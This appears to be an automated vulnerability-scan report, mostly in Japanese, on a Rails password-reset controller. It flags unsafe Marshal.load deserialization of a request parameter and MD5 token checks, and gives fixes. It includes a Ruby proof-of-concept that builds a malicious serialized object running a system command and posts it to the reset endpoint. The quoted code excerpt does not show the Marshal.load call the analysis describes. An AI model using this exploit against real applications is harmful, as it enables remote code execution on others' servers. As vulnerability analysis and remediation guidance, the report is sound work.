 # Security Analysis: password_resets_controller.rb - Validates the structure and integrity of password reset tokens

## ファイル情報

- **ファイルパス**: `repo/app/controllers/password_resets_controller.rb`
- **検出パターン**: Validates the structure and integrity of password reset tokens

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `RCE`

## PAR Policy Analysis

### Principals (データ源)

- **params[:user]**: Untrusted
  - Context: HTTP request parameters
  - Risk Factors: deserialization_input, untrusted
- **params[:token]**: Untrusted
  - Context: HTTP request parameters
  - Risk Factors: tamperable
- **params[:password]**: Untrusted
  - Context: HTTP request parameters
  - Risk Factors: credential_input
- **params[:confirm_password]**: Untrusted
  - Context: HTTP request parameters
  - Risk Factors: credential_input

### Actions (セキュリティ制御)

- **is_valid?**: Insufficient
  - Function: token_validation
  - Weaknesses: weak_hash, unsafe_deserialization
  - Bypass Vectors: malicious_serialized_object, MD5衝突攻撃

### Resources (操作対象)

- **Marshal.load**: Critical
  - Operation: deserialization
  - Protection: 
- **User.find_by**: High
  - Operation: database_read
  - Protection: ORM
- **user.save!**: High
  - Operation: database_write
  - Protection: ORM, authorization_missing

### Policy Violations

#### DSLRUBY001: Untrusted input passed to unsafe deserialization (Pattern: Validates the structure and integrity of password reset tokens)

- **Path**: PasswordResetsController#reset_password: Marshal.load(Base64.decode64(params[:user]))
- **Severity**: critical
- **Confidence**: 0.90

## マッチしたソースコード

```code
def is_valid?(token)
    if token =~ /(?<user>\d+)-(?<email_hash>[A-Z0-9]{32})/i

      # Fetch the user by their id, and hash their email address
      @user = User.find_by(id: $~[:user])
      email = Digest::MD5.hexdigest(@user.email)

      # Compare and validate our hashes
      return true if email == $~[:email_hash]
    end
  end
```

## 詳細解析

PasswordResetsControllerのreset_passwordアクションで、HTTPリクエストパラメータparams[:user]をBase64→Marshal.loadでデシリアライズしており、攻撃者が任意のオブジェクトを注入・実行可能です。トークン検証(is_valid?)もMD5ベースで弱く、総合的に重大なRCEリスクがあります。

## PoC（概念実証コード）

```text
# PoC: 悪意あるオブジェクトをデシリアライズしRCEを発生
class Evil
  def _dump(level); '' end
  def self._load(data)
    system('touch /tmp/pwned')
    Evil.new
  end
end
payload = Base64.strict_encode64(Marshal.dump(Evil.new))
require 'net/http'; uri = URI('http://victim/app/password_resets/reset_password')
res = Net::HTTP.post_form(uri, 'user' => payload)
puts res.body
```

## 修復ガイダンス

### Deserialization

- **Required**: 安全なシリアライゼーションライブラリ(JSONなど)への切り替え
- **Guidance**: Marshal.loadを禁止し、受信データはJSON.parseなどでホワイトリスト検証を行う
- **Priority**: high

### TokenGeneration

- **Required**: HMAC-SHA256ベースの署名付きトークンへ移行
- **Guidance**: トークンに秘密鍵ベースのHMACを付与し、MD5は廃止する
- **Priority**: medium

### Authentication

- **Required**: skip_before_action :authenticatedの見直し
- **Guidance**: reset_password処理前に適切な認証・認可を再導入し、不正アクセスを防止する
- **Priority**: high

## 解析ノート

・params[:user]で受け取ったBase64文字列をMarshal.loadでデシリアライズ→任意コード実行の危険
・is_valid?はMD5ハッシュ検証のみで脆弱（weak_hash）
・主リソース: Marshal.load（critical）、User.find_by/ save（high）
・ルール: DSLRUBY001 “Unsafe deserialization of untrusted input”
・改修: JSON化＋ホワイトリスト／HMAC付きトークン／認証強化が必須
・PoC: Evilクラスをデシリアライズして /tmp/pwned を作成するコード例

